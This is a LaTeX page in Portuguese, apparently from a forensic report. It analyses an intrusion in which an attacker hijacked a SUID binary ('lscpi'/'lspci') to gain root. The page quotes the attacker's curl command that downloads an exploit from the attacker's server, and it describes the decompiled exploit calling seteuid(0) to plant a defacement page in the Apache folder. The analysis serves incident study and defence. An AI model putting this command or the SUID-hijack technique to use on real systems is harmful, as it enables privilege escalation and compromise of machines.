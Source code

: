 \documentclass[10pt,english]{article}
\begin{document}
\par Olhando para o código original, é possível perceber que para além de diversas informações apresentadas na consola relativas às informações do sistema, o programa executa o ficheiro \textit{lscpi} que, devido à permissão com valor 4000, é executado com permissões máximas. Através desta descoberta, o atacante, desde que conseguisse substituir o código do ficheiro \textit{lscpi}, conseguiria realizar as tarefas que pretendesse com as permissões máximas do sistema. E foi com isto em mente que o atacante realizou o próximo comando, recorrendo a \textit{curl http://192.168.1.118:8080/exploit --output /tmp/lspci} realizou \textit{download} de um ficheiro que através do nome, percebe-se que servirá para explorar este escalonamento de permissões.

\par Visto que o ficheiro recebido pelo servidor também se encontrava em binário, voltou-se a recorrer ao \textit{Ghidra} para descompilar o mesmo:

\begin{figure}[h]
    \centering
    \includegraphics[width=250]{images/decompiled_exploit.png}
    \caption{Função \textit{main} do código original do programa \textit{exploit} do atacante}
\end{figure}

\par Como é possível verificar, o \textit{exploit} visa executar como \textit{root} ao colocar o utilizador do processo como o utilizador com \textit{id} 0, o \textit{root}, através de \textit{seteuid(0)} e fazer \textit{download} de um ficheiro \textit{index.html} presente no servidor do atacante, colocando-o posteriormente na pasta de disponibilização de acesso por parte do servidor de \textit{Apache} da máquina vítima com o nome \textit{index\_pwn.html}. 

\clearpage

\par Apesar de todo o comprometimento que este \textit{exploit} poderia vir a trazer, o atacante cingiu-se a transferir um ficheiro \textit{html} que para demonstrar que a máquina é totalmente vulnerável, sem nenhum efeito muito negativo, apesar de todo o acesso possível:
\end{document}
